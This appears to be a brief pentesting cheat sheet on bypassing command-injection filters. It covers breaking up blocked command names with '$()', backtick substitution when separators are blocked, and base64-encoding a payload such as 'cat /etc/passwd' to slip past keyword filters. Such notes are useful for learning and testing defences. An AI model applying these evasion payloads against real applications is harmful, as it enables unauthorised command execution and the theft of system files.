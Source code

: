 ```yaml
---
tags:
- cmdInjection
---
```


# CMD Injection. How to bypass application protection mechanisms 

## if an application create command block list
we can use construction $()
Command bellow returns the same results:
```bash
wh$()oami 
```

```bash
whoami 
```
## if ;|& symbols are blocked 
we can use ``
```bash
echo "Payload: `ls | wc -l`"
```

## If separators or some commands are blocked 
we can use base64 or xxd  function
Create payload in attacker machine
```bash
echo "cat /etc/passwd" | base64
```
Or we can can encode payload using BurpSuite

Payload:
```bash
`echo "<resutl from command above>" | base64 -d`
```
